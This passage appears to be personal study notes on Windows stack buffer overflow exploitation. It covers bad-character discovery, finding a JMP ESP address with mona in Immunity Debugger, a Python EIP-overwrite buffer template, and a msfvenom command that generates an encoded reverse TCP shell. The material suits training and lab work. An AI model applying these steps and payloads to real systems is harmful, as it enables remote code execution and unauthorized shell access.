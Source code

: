 - After sending the badchars, follow ESP in Dump to see if a character did something unexpected
- remove the character that breaks something from the badchars and rerun the script
- determine all bad characters: e.g. "0x00, 0x0A, 0x0D, 0x25, 0x26, 0x2B, 0x3D"

#### Redirecting the execution flow / Finding a return address
- First guess: overwrite ESP ==> does not work, because this address changes every time the application runs
- Use "JMP ESP"-instruction
	- find a static address for this instruction
		- librarys with ASLR support are not possible because address needs to be static
		- address must not include any of the bad characters
		- Find Information about modules with mona in Immunity Debugger:
	```python
	!mona modules
	```
	-	Find e.g. a DLL with Rebase, SafeSEH, ASL NXCompat OS Dll deactivated
	-	Also the DLL must not contain any of the bad characters in its address
	-	now find a "JMP ESP" instruction in the DLL
	-	First wee need the OPCode for the instruction:
	```bash
	msf-nasm_shell
	nasm > jmp esp
	00000000 FFE4		jmp esp
	```
	- search for the instruction in before detected DLL:

	```python
	!mona find -s "\xff\xe4" -m "<MODULENAME>"
	```
	- returns 1-n addresses (check if it/they contains bad characters)
	- Take address and use it with "Go to address in Disassembler" to verify if there's a "JMP ESP" instruction
	- Now use the address of the instruction to overwrite the EIP:

```python
filler = "A" * 780
eip = "<ADDRESS IN REVERSE>"
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))

inputBuffer = filler + eip + offset + buffer
```
**The address in the script needs to be in reverse.**
E.g. you get the following address in immunity debugger for the JMP ESP instruction: 0x10090C83
This results in the following in your script: "\x83\x0c\x09\x10"

- now set a breakpoint on the JMP ESP instruction and rerun exploit to verify that you reach the instruction
- In the Debugger step into the JMP ESP instruction and you'll see the "D"s as new instructions

#### generating a shellcode
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<IP> -f c -e x86/shikata_ga_nai -b "<BADCHARS>"
```
